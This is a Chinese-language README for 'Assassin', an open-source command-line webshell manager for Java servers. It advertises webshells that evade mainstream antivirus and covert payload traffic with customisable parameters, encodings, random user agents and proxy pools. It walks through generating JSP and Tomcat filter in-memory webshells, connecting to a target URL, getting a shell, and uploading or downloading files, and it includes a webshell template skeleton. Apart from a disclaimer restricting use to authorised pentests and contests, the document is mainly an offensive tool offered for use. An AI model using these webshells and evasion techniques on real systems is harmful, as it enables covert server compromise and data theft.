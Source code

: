 # Assassin

>Assassin是一款精简的基于命令行的webshell管理工具，它有着多种payload发送方式和编码方式，以及精简的payload代码，使得它成为隐蔽的暗杀者，难以被很好的防御。

自用工具开源互相学习，工具短小精悍，生成的webshell能够过目前主流杀毒软件(36x、腾x等，目前能过，后面可能很快就不行了，需要稍微变换webshell代码以再次免杀) 连接后交互的流量特征几乎没有，具体payload发送方式均可自定义。由于个人精力有限，~~因为懒而且菜~~，服务端暂时仅支持Java。

**声明：主要面向网络安全人员已授权的合法渗透或学生AWD等比赛使用，任何人不得将其用于非法用途以及盈利等目的，否则后果自行承担**

## 特点

**[1]** 生成的webshell能过主流杀软 36x、腾x等等(以后可能就不行了，需要稍加更改代码，webshell模板可以自定义修改)

**[2]** webshell仅1kb大小，客户端与服务端完成连接后发送payload十分精简

**[3]** payload能够以get、post、cookie、mixed四种方式发送，可动态修改，流量迷惑性较强

**[4]** 客户端与服务端交互流量支持多种编码方式，可动态修改

**[5]** payload发送的参数名以及数量均可自定义，支持随机ip代理和user-agent

## 软件截图

软件类似于MSF的操作模式

![](assets/2021-11-23-14-26-25.png)

![](assets/2021-11-23-16-26-42.png)

![](assets/2021-11-23-16-47-25.png)


## 发送的payload流量示例

![](assets/2021-11-23-18-26-04.png)

cookie：
![](assets/2021-11-23-16-51-06.png)

post：
![](assets/2021-11-23-17-08-53.png)

mixed：
![](assets/2021-11-23-17-12-14.png)

get：
![](assets/2021-11-23-17-18-56.png)

除了cookie方式，get、post、mixed可以在已经建立连接后动态修改发送方式，无需更改服务端

请求编码：
1. base64
2. base36
3. hex

响应编码：
1. base64
2. raw
3. base36
4. hex

其中响应的编码方式可以动态修改

## 使用教程

### 适用版本

服务端：jre 1.5及以上

客户端：jdk 1.8及以上

### 配置文件

```json lines
{
  "paramNames": ["user", "file", "id", "eid", "wd", "ie", "oq", "name", "son"],
  // get、post、mixed请求参数名的随机池
  "cookieNames": ["fid", "uuid", "eid", "home", "ief", "fl", "oop"],
  // cookie请求参数名的随机池
  "headers":{
    "Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    "Accept-Encoding":"gzip, deflate, br",
    "Accept-Language":"Accept-Language: zh-CN,zh;q=0.9",
    "Upgrade-Insecure-Requests": "1"
  },
  // http头部
  "partNum": 3,
  // payload首次发送的分块数量
  "argNum": 5,
  // 每次请求的参数个数，不能超过paramNames或者cookieNames的参数个数
  "startRandomUserAgent": false,
  // 是否随机useragent
  "startIpAgents": false,
  // 是否开启ip池代理模式
  "startColor": true
  // 是否启用命令行颜色
}
```

随机useragent采用./useragents.txt里的useragent，开启后每次请求都会更换useragent，一般配合ip代理使用，关闭时是每次用session命令启动一个webshell会话一个useragent。

ip代理池使用./ipagents.txt，格式为```ip:posr;username:password```，不需要认证的话```ip:port```就可以了，开启后每次请求会从中选择一个代理。

**Tip：windows用户启动后乱码请关闭"startColor"，或者使用Windows Terminal启动**

### 帮助信息

所有命令使用都比较简单，可以通过help命令查看参数

![](assets/2021-11-23-19-52-59.png)

```help [command]``` 查看具体命令的帮助

![](assets/2021-11-23-19-53-56.png)

### 实例

用startup.bat或startup.sh启动

```bash
new java 123 cookie
# 生成密码为123 发送方式为cookie的普通jsp木马
new java pass post reqEncode=base36 tamper=tomcat9_filter
# 生成密码为pass 发送方式为post 请求用base36编码的tomcat9 filter内存马 
```
**Tips：add和new命令参数比较多，中括号包裹的可选参数还可以用key=value的方式赋值**

之后会弹出窗口选择保存位置

![](assets/2021-11-23-20-00-26.png)

将webshell上到目标服务器

```bash
add http://192.168.48.130:8080/1.jsp 123 java method=cookie resEncode=base36
# 添加webshell 密码123 java马 cookie传参 请求编码默认base64 响应编码base36
```
```show```查看ID号
![](assets/2021-11-23-20-06-56.png)

```session 1```连接webshell

![](assets/2021-11-23-20-08-19.png)

看到提示符发生变化就可以执行webshell controller commands的命令了！
```bash
Assassin|java >getshell
Assassin|java|C:\apache-tomcat-9.0.54\bin >dir
```

上传文件

```bash
upload # 没参数默认传到当前目录
```

![](assets/2021-11-23-20-25-16.png)

选择文件即可上传

```download ./test.txt```同理

![](assets/2021-11-23-20-27-15.png)

![](assets/2021-11-23-20-28-04.png)

### 编写webshell模板tamper

![](assets/2021-11-23-20-14-14.png)

第一个部分用{@key}填充，代表 webshell密码

第二个部分用{@getvalue}填充，代表 获取请求payload的代码

第三个部分用{@decode}填充，代表 解码代码

模板如下：

```java
String k="{@key}";// aes密钥 123456 md5的前16位
String r = ""; //密文payload存放位置，这个参数名必须为r，其他的无所谓
// 取密文
{@getvalue}
byte[] cText = {@decode};
```

其他主要逻辑不改，就可以成功连接。

**实例**

请看webshell/java/下的tomcat的filter内存马模板







